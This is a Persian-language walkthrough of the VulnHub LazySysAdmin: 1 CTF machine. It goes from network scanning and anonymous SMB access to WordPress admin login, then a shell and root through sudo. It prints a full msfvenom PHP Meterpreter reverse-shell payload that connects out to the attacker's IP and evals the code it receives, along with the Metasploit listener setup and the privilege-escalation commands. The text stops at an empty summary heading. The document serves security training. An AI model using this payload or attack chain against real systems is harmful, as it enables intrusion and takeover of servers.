<div align="center">

# LazySysAdmin: 1

### گزارش حل چالش CTF

**از شناسایی شبکه تا گرفتن دسترسی Root**

[English](README.md) | [فارسی](README.fa.md)


</div>

---

## معرفی چالش

LazySysAdmin: 
1 یه چالش Boot-to-Root از سایت VulnHub هست که برای افراد مبتدی و سطح متوسط مناسبه.

توی این چالش با یه ماشین لینوکسی طرفیم که به خاطر تنظیمات امنیتی ضعیف و اشتباهات مدیریتی، چندتا مشکل امنیتی داره. هدفمون اینه که سرویس‌های فعال رو پیدا کنیم، اطلاعات مفید رو به دست بیاریم، یه راه برای ورود به سیستم پیدا کنیم و در نهایت به دسترسی `root` برسیم.

توی این گزارش، مراحلی رو که برای حل چالش طی کردم، از شناسایی اولیه شبکه تا پیدا کردن فایل نهایی، توضیح می‌دم.

## دانلود ماشین مجازی

برای شروع، باید ماشین مجازی این چالش رو از VulnHub دانلود کنید.

- **صفحه چالش:** [LazySysAdmin: 1 — VulnHub](https://www.vulnhub.com/entry/lazysysadmin-1,205/)
- **لینک دانلود مستقیم:** [Lazysysadmin.zip](https://download.vulnhub.com/lazysysadmin/Lazysysadmin.zip)

برای اجرای ماشین هم می‌تونید از VirtualBox یا VMware استفاده کنید.

**سطح سختی:**  متوسط

## شناسایی شبکه

اول از همه، باید ماشین هدف رو توی شبکه پیدا می‌کردم. برای این کار از ابزار `netdiscover` استفاده کردم.

توی خروجی، دو دستگاه مهم مشخص شدن:

- `192.168.43.220` — سیستم Kali Linux من
- `192.168.43.166` — ماشین هدف LazySysAdmin

پس IP ماشین هدف رو پیدا کردم و از این به بعد بررسی‌ها رو روی آدرس `192.168.43.166` ادامه دادم.



## بررسی پورت‌ها و سرویس‌ها با Nmap

بعد از پیدا کردن IP هدف، نوبت بررسی پورت‌های باز و سرویس‌های در حال اجرا بود.

برای این کار از Nmap با گزینه `-sV` استفاده کردم:

```bash
nmap -sV 192.168.43.166
```

توی نتایج، چند پورت باز دیده شد. بین اون‌ها پورت‌های `139` و `445` مهم بودن، چون معمولاً برای سرویس SMB استفاده می‌شن.

SMB برای اشتراک‌گذاری فایل‌ها و منابع توی شبکه استفاده می‌شه. برای همین تصمیم گرفتم این سرویس رو بیشتر بررسی کنم تا ببینم آیا می‌شه بدون رمز عبور به فایل‌های اشتراکی دسترسی پیدا کرد یا نه.

سرویس‌های دیگه‌ای مثل SSH، HTTP، MySQL و IRC هم توی اسکن مشخص شدن که می‌شد در مراحل بعدی بررسی‌شون کرد.



## دسترسی بدون رمز عبور به SMB

بعد از شناسایی SMB، سراغ بررسی این سرویس رفتم.

تونستم بدون وارد کردن رمز عبور به سرویس متصل بشم. این یعنی بخشی از دسترسی‌های SMB بدون احراز هویت در دسترس بودن.

حالا می‌تونستم منابع اشتراکی رو بررسی کنم و دنبال فایل‌هایی بگردم که اطلاعات به‌دردبخوری داخلشون باشه.



## پیدا کردن اطلاعات WordPress

در ادامه، با استفاده از شلی که به دست آورده بودم، سراغ فایل‌های پیکربندی WordPress رفتم.

فایل `wp-config.php` رو با استفاده از دستور `GET` دریافت کردم و با بررسی محتویاتش، به اطلاعات ورود زیر رسیدم:

- **نام کاربری:** `Admin`
- **رمز عبور:** `TogieMYSQL12345^^`

این اطلاعات یه سرنخ مهم بود؛ چون حالا می‌تونستم بررسی کنم که آیا با این مشخصات امکان ورود به پنل مدیریت WordPress وجود داره یا نه.



## ورود به پنل WordPress

بعد از پیدا کردن نام کاربری و رمز عبور، باید آدرس پنل مدیریت WordPress رو مشخص می‌کردم.

با استفاده از ابزار **Dirb**، آدرس زیر رو پیدا کردم:

`http://192.168.43.166/wordpress/wp-admin/user/`

بعد اطلاعاتی رو که از فایل پیکربندی به دست آورده بودم وارد کردم:

- **نام کاربری:** `Admin`
- **رمز عبور:** `TogieMYSQL12345^^`

ورود با موفقیت انجام شد و تونستم وارد محیط WordPress بشم.



## پیدا کردن ویرایشگر پوسته WordPress

بعد از ورود به پیشخوان WordPress، بخش‌های مختلف رو بررسی کردم و متوجه شدم که امکان ویرایش فایل‌های پوسته از داخل پنل مدیریت وجود داره.

آدرس ویرایشگر پوسته این بود:

`http://192.168.43.166/wordpress/wp-admin/theme-editor.php`

این قابلیت برام مهم بود؛ چون اگه امکان ویرایش و اجرای کد PHP وجود داشته باشه، شاید بشه ازش برای گرفتن دسترسی اولیه به سیستم استفاده کرد.

برای بررسی این موضوع، کار رو توی محیط آزمایشگاهی همین چالش ادامه دادم.



## ساخت Payload با استفاده از MSFvenom

حالا که امکان ویرایش فایل‌های پوسته رو پیدا کرده بودم، تصمیم گرفتم بررسی کنم که آیا می‌تونم از این قابلیت برای ایجاد یه اتصال معکوس به سیستم Kali Linux استفاده کنم یا نه.

برای این کار از `msfvenom` استفاده کردم و یه Payload از نوع PHP Meterpreter ساختم.

آدرس سیستم خودم `192.168.43.220` بود و برای اتصال هم پورت `888` رو انتخاب کردم.

دستور مورد استفاده:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.220 LPORT=888 -f raw
```

تصویر زیر مربوط به مرحله ساخت Payload هست.



### کد PHP تولیدشده

کدی که توسط `msfvenom` تولید شد، به این شکل بود:

```php
<?php /**/ error_reporting(0); $ip = '192.168.43.220'; $port = 888; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

این کد برای اتصال به IP و پورتی که مشخص کرده بودم تنظیم شده بود. البته ساختن Payload به‌تنهایی کافی نبود؛ باید کد روی ماشین هدف اجرا می‌شد و هم‌زمان Listener هم آماده دریافت اتصال می‌بود.

## قرار دادن Payload داخل پوسته WordPress

بعد از ساخت Payload، دوباره وارد ویرایشگر پوسته WordPress شدم و کد تولیدشده رو داخل فایل موردنظر قرار دادم.

بعد از ذخیره تغییرات، آماده بودم بررسی کنم که آیا درخواست به فایل تغییر‌یافته می‌تونه Payload رو اجرا کنه یا نه.



## راه‌اندازی Listener در Metasploit

برای دریافت اتصال معکوس، Metasploit رو با دستور `msfconsole` اجرا کردم و ماژول `multi/handler` رو تنظیم کردم.

Payload، آدرس IP و پورت رو مطابق تنظیماتی که هنگام ساخت Payload استفاده کرده بودم، مشخص کردم.

دستورها:

```text
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.43.220
set lport 888
exploit
```

بعد از اجرای دستور `exploit`، Handler شروع به گوش دادن روی آدرس `192.168.43.220:888` کرد و منتظر اتصال ورودی موند.



حالا Listener آماده بود و باید فایل تغییر‌یافته روی ماشین هدف رو درخواست می‌کردم تا Payload اجرا بشه.

## گرفتن Shell

برای فعال کردن Payload، آدرس زیر رو درخواست کردم:

`http://192.168.43.166/wordpress/wp-content/themes/twentyfifteen/404.php`

بعد از اجرای فایل، یه نشست Meterpreter برقرار شد و تونستم دسترسی اولیه به ماشین هدف رو به دست بیارم.



## بررسی کاربران سیستم

بعد از گرفتن Shell، شروع کردم به بررسی سیستم تا ببینم چه حساب‌های کاربری‌ای وجود دارن و چه مسیری برای ارتقای سطح دسترسی پیدا می‌شه.

برای دیدن حساب‌های کاربری محلی، دستور زیر رو اجرا کردم:

```bash
cat /etc/passwd
```



توی خروجی، به حسابی با نام `togie` برخوردم.

این حساب می‌تونست سرنخی برای ادامه کار باشه؛ برای همین تصمیم گرفتم دنبال اطلاعات ورودش بگردم و بعد از ورود، مجوزهاش رو بررسی کنم.

## پیدا کردن رمز عبور از طریق SMB

بعد از شناسایی کاربر `togie`، دوباره سراغ SMB رفتم تا فایل‌های اشتراکی رو بررسی کنم.

توی منابع اشتراکی، فایلی با نام `deets.txt` پیدا کردم. برای دریافت فایل از دستور زیر استفاده کردم:

```text
smb: \> get deets.txt
getting file \deets.txt of size 139 as deets.txt (9.0 KiloBytes/sec) (average 156.3 KiloBytes/sec)
smb: \>
```

فایل با موفقیت دریافت شد و برای بررسی بیشتر روی سیستم محلی قرار گرفت.



بعد از بررسی فایل، رمز عبور مربوط به حساب `togie` رو پیدا کردم:

- **نام کاربری:** `togie`
- **رمز عبور:** `12345`

حالا اطلاعات لازم برای ورود به این حساب رو داشتم و می‌تونستم مجوزهاش رو بررسی کنم.

## ارتقای سطح دسترسی به Root

در این مرحله، رمز عبور کاربر `togie` رو پیدا کرده بودم. اما Shell اولیه به‌صورت کامل تعاملی نبود؛ بنابراین اول باید یه TTY تعاملی ایجاد می‌کردم.

### ایجاد TTY تعاملی

برای ایجاد یه محیط Bash تعاملی، از ماژول `pty` در Python استفاده کردم:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

بعد از اجرای دستور، یه Shell تعاملی در اختیارم قرار گرفت:

```text
<ww/html/wordpress/wp-content/themes/twentyfifteen$
```

حالا می‌تونستم به حساب کاربری `togie` تغییر حساب بدم:

```bash
su togie
```

سیستم رمز عبور رو درخواست کرد:

```text
Password: 12345
```

بعد از وارد کردن رمز، ورود موفقیت‌آمیز بود و اعلان ترمینال به شکل زیر تغییر کرد:

```text
togie@LazySysAdmin:/var/www/html/wordpress/wp-content/themes/twentyfifteen$
```

### بررسی دسترسی‌های Sudo

بعد از ورود به حساب `togie`، بررسی کردم که این کاربر اجازه اجرای چه دستورهایی رو با `sudo` داره.

برای این کار از دستور زیر استفاده کردم:

```bash
sudo -l
```

خروجی به این شکل بود:

```text
[sudo] password for togie: 12345

Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL
```

مهم‌ترین بخش خروجی این خط بود:

```text
(ALL : ALL) ALL
```

این یعنی کاربر `togie` اجازه داشت دستورها رو به‌عنوان کاربران مختلف، از جمله `root`، اجرا کنه.

در نتیجه، برای رسیدن به سطح دسترسی root لازم نبود دنبال یه آسیب‌پذیری پیچیده‌تر بگردم؛ همین مجوز گسترده مسیر ارتقای دسترسی رو فراهم می‌کرد.

### گرفتن دسترسی Root

برای گرفتن Shell با دسترسی root، دستور زیر رو اجرا کردم:

```bash
sudo su
```

بعد از اجرای دستور، اعلان ترمینال به شکل زیر تغییر کرد:

```text
root@LazySysAdmin:/var/www/html/wordpress/wp-content/themes/twentyfifteen#
```

این تغییر نشون می‌داد که با موفقیت به دسترسی root رسیده‌ام.

### پیدا کردن فایل نهایی

بعد از گرفتن دسترسی root، محتویات پوشه `/root` رو بررسی کردم:

```bash
ls /root
```

توی خروجی، فایل `proof.txt` رو پیدا کردم.

برای دیدن محتویات فایل، دستور زیر رو اجرا کردم:

```bash
cat /root/proof.txt
```

محتوای فایل شامل رشته اثبات و پیام زیر بود:

```text
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851

Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie
```

چند رشته دیگه هم داخل فایل وجود داشت:

```text
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
```

این رشته‌ها توی فایل اصلی `proof.txt` قرار داشتن. رشته اول هم به‌عنوان اثبات در ابتدای فایل نمایش داده شده بود.



## خلاصه مسیر حل چالش

مسیر کلی‌ای که برای حل این چالش طی کردم، به این شکل بود:

